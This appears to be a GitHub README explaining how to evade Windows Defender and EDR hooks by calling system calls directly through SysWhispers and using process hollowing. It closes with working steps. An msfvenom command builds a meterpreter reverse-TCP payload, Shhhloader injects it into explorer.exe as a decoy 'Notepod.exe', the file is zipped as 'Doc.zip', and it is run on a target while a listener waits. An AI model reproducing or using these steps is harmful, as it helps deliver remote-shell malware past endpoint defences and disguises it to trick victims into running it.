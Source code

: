 # Defeat Windows Defender using direct Syscall

## Protection rings


![image](https://user-images.githubusercontent.com/76106120/151554524-e5d661f2-6d22-4051-a2bf-40367cf6ac2f.png)


Windows Operating System as some security rings in order to avoid any one to access critical memory region.
There is the user-mode where the applications are running (ring 3) and the kernel mode (ring 0) with the critical system components.
Some resources cannnot be accessed by specific application in order to prevent malicious behavior.

Application are isolated from critical memory section and system resources are running in Kernel Mode.
To make the translation between user mode and kernel mode there is an dll called ntddl.dll.
Ntddl.dll gives the right Api call perform by the user mode, thanks to that the kernel can make the right system call.

#### In the image just below, you can see how the user mode and the kernel mode interract :
 
![image](https://user-images.githubusercontent.com/76106120/151559138-3b33e231-e4a8-4af7-a561-c34278648b02.png)
 
 
The AV/EDR products knows that the sensitive spot is when the ntdll.dll give the syscall number to execute to the kernel mode.
If an AV/EDR recognize strange syscall, they will hook the API.
 
To bypass this, it is possible to make direct system call. We can execute system call without using the ntdll.dll.
This is where the SysWhisper projet will be useful to us. With syswhisper you are able to generate file Syscall.h who contain all the syscall of each windows operating system.
SysWhisper gives us all the syscall that we need for any type of os, with that we are able to make direct syscall as if they were normal Native API functions.
We do not need to pass through the ntdll.dll, a therefore to pass under the radar of AV/EDR.

### Let's take an example :

If we want to use the NT system call CreateFile, we should call the NtCreateFile located in the ntdll.dll. But instead of this we are directly invoking SysNtCreateFile.

![image](https://user-images.githubusercontent.com/76106120/151571082-cb09f257-e154-4329-9f3f-13b1e06cc1ca.png)

 
The AV/EDR product could not hook the API because we are not using API calls, we are using direct syscall.
So the AV/EDR cannot intercept our attemps and we would have opened the succesfully 🙂

### Process Hollowing

Now that we are able to use NT system call under the radar of AV/EDR products.
We want to run our shellcode.

How it's working:

1) Create the target process (ex: explorer.exe) in a suspended state.

2) Parse the create process in order to find the EntryPoint

3) Then Write the shellcode to the EntryPoint and resume the thread execution.

for futher details check (https://github.com/snovvcrash/NimHollow)
 
## Shhhloader project (https://github.com/icyguider/Shhhloader):

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o tesssssst.bin
 
> ./Shhhloader.py tesssssst.bin -p explorer.exe -o Notepod.exe
 
> zip Notepod.exe Doc.zip
 
 - Drag and drop .zip in your Windows machine.
 - Start meterpreter listener and set payload to windows/x64/meterpreter/reverse_tcp (Shhhloader only support staged payload, so you have to provide it the right one !!!)
 - run the Notepod.exe
 
![image](https://user-images.githubusercontent.com/76106120/151585618-3b3790d7-e591-4c40-976e-5d8e6c5bfef4.png)

 
 
 
 




